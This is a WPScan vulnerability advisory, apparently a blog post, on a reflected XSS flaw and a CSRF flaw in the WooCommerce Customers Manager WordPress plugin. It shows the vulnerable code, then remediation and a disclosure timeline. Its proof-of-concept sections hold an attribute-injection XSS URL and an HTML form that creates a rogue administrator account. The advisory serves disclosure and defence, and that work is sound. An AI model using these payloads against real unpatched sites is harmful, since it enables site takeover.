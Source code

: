 ```yaml
---
layout: post
title: "WooCommerce Customers Manager WordPress Plugin - Multiple Security Vulnerabilities"
---
```


## Introduction

A member of the WPScan research team discovered two security vulnerabilities within the premium [WooCommerce Customers Manager](https://codecanyon.net/item/woocommerce-customers-manager/10965432) WordPress plugin, versions less than 26.6.

The following two vulnerabilities were identified and added to our [WordPress vulnerability database](https://wpscan.com):

- [Authenticated Reflected Cross-Site Scripting](https://wpscan.com/vulnerability/ad9dd88c-7ae8-41ac-a0d7-469e146f7817) - CVSS: [7.1 (High)](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:L)

- [Arbitrary User Account Creation/Update via CSRF](https://wpscan.com/vulnerability/10e2cb9d-7285-4d85-923b-bc1ba97bd51a) - CVSS: [8.8 (High)](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:H)

## Technical Details

While checking if a reported [privilege escalation](https://wpscan.com/vulnerability/126143e0-b0cc-4517-862e-3ac557db744f) vulnerability was properly fixed, it was identified that the issue was still exploitable via a Cross-Site Request Forgery (CSRF) attack. An attempted fix for a second security issue, an Authenticated Cross-Site Scripting(XSS) vulnerability, was also found to not be sufficient, still allowing the attack.

At WPScan we work closely with plugin authors to ensure the fixes that they implement are done correctly, to ensure that our users are kept safe.

### Authenticated Reflected Cross-Site Scripting (XSS)

The `wccm_customers_ids` and `wccm_customers_emails` parameters are output in `href` attributes, after being sanitised with the `sanitize_text_field()` function, which is not appropriate for such case, as payload such as `' injected-attribute=value` will still be injected.

In `classes/admin/WCCM_CustomerGuestList.php`
```php
<h2 class="nav-tab-wrapper">
  <a class='nav-tab' href='?page=woocommerce-customers-manager<?php if($this->filter_by_product_id >0) echo '&filter-by-product='.$this->filter_by_product_id; if(isset($_REQUEST['wccm_customers_ids'])) echo '&wccm_customers_ids='.sanitize_text_field($_REQUEST['wccm_customers_ids']);  if(isset($_REQUEST['wccm_customers_emails'])) echo '&wccm_customers_emails='.sanitize_text_field($_REQUEST['wccm_customers_emails']); echo '&wccm_already_encoded=yes'; ?>'>Registered</a>
  <a class='nav-tab nav-tab-active' href='?page=woocommerce-customers-manager&action=wccm-guests-list<?php if($this->filter_by_product_id >0) echo '&filter-by-product='.$this->filter_by_product_id; if(isset($_REQUEST['wccm_customers_ids'])) echo '&wccm_customers_ids='.sanitize_text_field($_REQUEST['wccm_customers_ids']); if(isset($_REQUEST['wccm_customers_emails'])) echo '&wccm_customers_emails='.sanitize_text_field($_REQUEST['wccm_customers_emails']);?>'>Guests</a>
</h2>
```

#### Proof of Concept (PoC)

Log on to the blog as administraor and open the below URLs:

- https://example.com/wp-admin/admin.php?page=woocommerce-customers-manager&action=wccm-guests-list&wccm_customers_ids=%27+style%3Danimation-name%3Arotation+onanimationstart%3Dalert%28%2FXSS-ids%2F%29+b%3D%27
- https://example.com/wp-admin/admin.php?page=woocommerce-customers-manager&action=wccm-guests-list&wccm_customers_emails=%27+style%3Danimation-name%3Arotation+onanimationstart%3Dalert%28%2FXSS-emails%2F%29+b%3D%27

### Arbitrary User Account Creation/Update via CSRF

The `upload_csv` AJAX action, available to authenticated users, does not have any CSRF check, allowing attackers to make logged in users with the `manage_woocommerce` capability (by default administrator) import arbitrary accounts. This could lead to rogue administrator accounts to be created and the blog being compromised.

In `classes/admin/WCCM_CustomerImport.php`
```php
public function __construct()
{
  add_action( 'wp_ajax_upload_csv', array( &$this, 'process_csv_upload_ajax' ) );
}
function process_csv_upload_ajax()
{
  if(!current_user_can('manage_woocommerce'))
    wp_die();

  $csv_array = explode("<#>", $_POST['csv']);
  $this->process_uploaded_file($csv_array);
  [...]
}
```

#### Proof of Concept (PoC)

Log on to the blog, as a user with the `manage_woocommerce` capability (by default administrator), and open the HTML file below:

```
<html>
  <body>
    <form action="https://example.com/wp-admin/admin-ajax.php" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="action" value="upload_csv" />
      <input type="hidden" name="send-notification-email" value="no" />
      <input type="hidden" name="csv" value='ID","Password","Role","Login","Email"<#>"","Passw0rd","administrator","admin-attacker","admin-attacker@localhost.org"' />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

This will create a new administrator account, with the `admin-attacker` username.

## Remediation

- Proplerly sanitise, validate and escape user inputs (the [esc_attr()](https://developer.wordpress.org/reference/functions/esc_attr/) WP function should be used to escape output in attributes)
- Adds a CSRF check to the `process_csv_upload_ajax()` method to prevent CSRF attacks
  - https://developer.wordpress.org/reference/functions/wp_create_nonce/
  - https://developer.wordpress.org/reference/functions/wp_verify_nonce/

## Timeline

- March 11th, 2021 - Improper fixes identified and confirmed. Vendor contacted via http://www.domenicolagudi.com/#contact
- March 16th, 2021 - No response from vendor, escalated to Envato.
- March 17th, 2021 - v26.6 released, fixing the issues (confirmed on March 30th via source code provided by the vendor).
- March 30th, 2021 - Vulnerabilities published on wpscan.com and sent out to our users.
- April 8th, 2021 - This blog post released.
